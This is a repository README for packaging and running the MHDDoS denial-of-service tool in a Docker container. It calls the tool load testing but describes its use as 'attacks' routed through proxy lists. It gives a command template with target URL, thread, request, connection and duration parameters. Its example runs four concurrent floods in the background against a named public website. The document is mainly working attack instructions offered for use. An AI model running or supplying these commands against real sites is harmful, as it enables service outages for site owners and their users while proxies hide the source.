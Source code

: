 # MHDDoS Docker

This repository provides instructions to use the MHDDoS tool in a Docker container. The image is hosted on Docker Hub and can be used to perform load testing or stress testing with customizable proxies.

## Prerequisites

- Docker installed on your machine.
- A proxy list file (e.g., `https.txt`) containing the proxies to be used in the attacks (optional).

## Usage

### Pull the Docker Image

To get the latest version of the Docker image, run:

```bash
docker pull seanr95/mhddos:latest
```

## Running with a Prepopulated Proxy File

If you already have a proxy file, you can map it into the container and run the MHDDoS tool with the following steps:

1. Ensure your proxy file (e.g., https.txt) is located on your server. For this example, the file is located at /home/MHDDoS/files/proxies/https.txt
2. Use the -v flag to map the local proxy file to the container, then run the attack with the following command:

## Template of an attack:
```bash
docker run -d \
    -v /path/to/proxies.txt:/app/files/proxies/https.txt \
    seanr95/mhddos bash -c 'python3 start.py [METHOD] [URL] [THREADS] [REQUESTS] [PROXY FILE] [CONNECTIONS] [TIME]'
```
Where:
  [METHOD]: HTTP method (GET, POST, etc.).
  [URL]: The target URL.
  [THREADS]: Number of threads.
  [REQUESTS]: Number of requests per second.
  [PROXY FILE]: The proxy list file (e.g., https.txt).
  [CONNECTIONS]: Number of connections.
  [TIME]: Time duration for the attack in seconds.

## Example Use Case
```bash
docker run -d \
    -v /home/MHDDoS/files/proxies/https.txt:/app/files/proxies/https.txt \
    seanr95/mhddos bash -c 'parallel ::: \
    "python3 start.py GET https://autodemo.radware.net 1 100 https.txt 100 300" \
    "python3 start.py GET https://autodemo.radware.net/ 1 100 https.txt 100 300" \
    "python3 start.py GET https://autodemo.radware.net/ 1 100 https.txt 100 300" \
    "python3 start.py GET https://autodemo.radware.net/ 1 100 https.txt 100 300"'
```
This command will initiate four concurrent MHDDoS attacks using proxies from the prepopulated https.txt file.


